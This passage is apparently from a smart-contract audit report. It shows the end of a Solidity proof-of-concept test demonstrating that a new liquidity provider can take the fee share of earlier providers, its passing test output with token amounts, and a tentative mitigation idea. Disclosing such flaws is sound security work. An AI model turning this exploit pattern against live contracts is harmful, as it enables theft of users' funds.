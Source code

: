 ```solidity
        balanceAfterToken0 = token0.balanceOf(charlie);
        balanceAfterToken1 = token1.balanceOf(charlie);

        console.log("token0 received for burning shares: ", balanceAfterToken0 - balanceBeforeToken0);
        console.log("token1 received for burning shares: ", balanceAfterToken1 - balanceBeforeToken1);
    }
```

_Output:_

```bash
[PASS] test_anyoneCanStealTheFeeShareOfOldLPs() (gas: 3983497)
Logs:
  ---- Mint with Burn With fee ---
  token0 spent for mint:  34140999421640471950
  token1 spent for mint:  49901123687090552020
  new tokens minted to alice for same amount of liqiudity:  100000000000000000000
  token0 received for burning shares:  206157329183632758349
  token1 received for burning shares:  549901123687090551875
  

  ---- Mint and Burn Without fee ---
  token0 spent for mint:  34140999421640471950
  token1 spent for mint:  49901123687090552020
  new tokens minted to charlie for same amount of liqiudity:  100000000000000000000
  token0 received for burning shares:  34140999421640471948
  token1 received for burning shares:  49901123687090552017
```

### Mitigation

Maybe store the extra tokens in a reserve or keep the track of the current total liquidity and the fees not collected. But this might be a little bit complex to implement. At this moment this is what I could think of. If you have something better then implement that